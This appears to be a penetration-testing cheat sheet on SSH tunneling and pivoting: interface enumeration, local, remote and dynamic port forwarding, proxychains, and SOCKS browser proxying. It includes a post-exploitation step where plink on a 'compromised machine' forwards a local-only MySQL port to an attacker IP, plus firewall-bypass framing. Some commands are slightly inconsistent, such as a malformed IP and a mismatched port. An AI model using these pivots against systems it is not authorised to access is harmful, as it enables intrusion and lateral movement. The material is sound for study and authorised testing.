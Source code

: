 # SSH Tunneling/Forwarding

## Check HTTPTunnel

* [https://github.com/larsbrinkhoff/httptunnel](https://github.com/larsbrinkhoff/httptunnel)
* first, create a local port forward between compromised machine and attacking machine
* second, create HTTPTunnel

## Ipconfig

* looking for machines that have at least THREE network interfaces (loopback, eth0, and eth1)
* these machines are connected to other networks, so use them to pivot

### Windows

```bash
ipconfig /all
route print
arp -a
```

### Linux

```bash
ifconfig
ifconfig -a
arp -a
```

## SSH Tunneling - Port forwarding on SSH

### Use Cases

* encrypt traffic that uses unencrypted protocols, like VNC, IMAP, IRC.
* on a public network and want to encrypt all your http traffic
* want to bypass firewall rules

### Local Port Forwarding

* make Facebook available on address localhost:8080

```bash
ssh -L 8080:www.facebook.com:80 localhost
```

* you can also forward ports like this

```bash
ssh username@<remote-machine> -L localport:target-ip:target-port
```

```bash
ssh [username@192.168.1.111](mailto:username@192.168.1.111) -L 5000:192.168.1.222:5000
```

now this port will be available on the localhost, go to

```bash
nc localhost:10000
```

### Remote Port Forwarding

* imagine that a compromised machine, and that machine has MYSQL running but it is only accessible for localhost
* can't access it because you have a really crappy shell, just forward that port to our attacking machine
* the steps are as following

```bash
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

* by the way, plink is a ssh-client for windows that can be run from the terminal
* the ip of the attacking machine is 111.111.111.111
* Step 1: on our compromised machine

```bash
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

* Step 2: check netstat on our attacking machine, should see something like this

```bash
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

* that means that we can connect to that port on the attacking machine from the attacking machine
* Step 3: connect using the following command

```bash
mysql -u root -p -h 127.0.0.1 --port=3307
```

### Dynamic port forwarding

* can be used to dynamically forward all traffic from a specific application
* with remote and local port forwarding you are only forwarding a single port
* can be a hassle if the target machine has 10 ports open that you want to connect to
* instead we can use a dynamic port forwarding technique
* set up the tunnel like this
* after it is set up do not run any commands in that session
* connect to the machine we want to pivot from

```bash
ssh -D 9050 [user@192.168.1.111](mailto:user@192.168.1.111)
```

* since proxychains uses 9050 by default (the default port for tor) configuring Proxychains is not needed
* to change the port do that in /etc/proxychains.conf

```bash
proxychains nc 192.168.2.222 21
```

* to supress all the logs from Proxychains, configure it in the config file

## Tunnel all HTTP/HTTPS Traffic Through SSH

* need two machines
* Machine1 - 111.111.1111.111 - the server that works as the proxy
* Machine2 - the computer with the web browser
* check out what the public IP address is, so that we know the IP address before and after so we can verify that it works
* on Machine2 we run

```bash
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111)
#or run with -N flag
ssh -D localhost:9999 [root@111.111.111.111](mailto:root@111.111.111.111) -N
```

* now go to

```bash
Firefox/settings/advanced/network and SOCKS 
add 127.0.0.1 and port 9999
```

* notice that this setup probably leaks DNS, so don't use it if  opsec is needed
* to fix the DNS-leak
* go to

```bash
about:config in firefox #(in the addressbar) 
#then look for 
network.proxy.socks_remote_dns #and switch it to TRUE
```

* now you can check [https://ipleak.net/](https://ipleak.net)
* it still says that we have WebRTC leaks, in order to solve this go to

```bash
about:config #and set the following to FALSE: 
media.peerconnection.enabled
```

## References

* This is a good video-explanation
* [https://www.youtube.com/watch?v=c0XiaNAkjJA](https://www.youtube.com/watch?v=c0XiaNAkjJA)
* [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)
* [http://ways2hack.com/how-to-do-pivoting-attack/](http://ways2hack.com/how-to-do-pivoting-attack/)
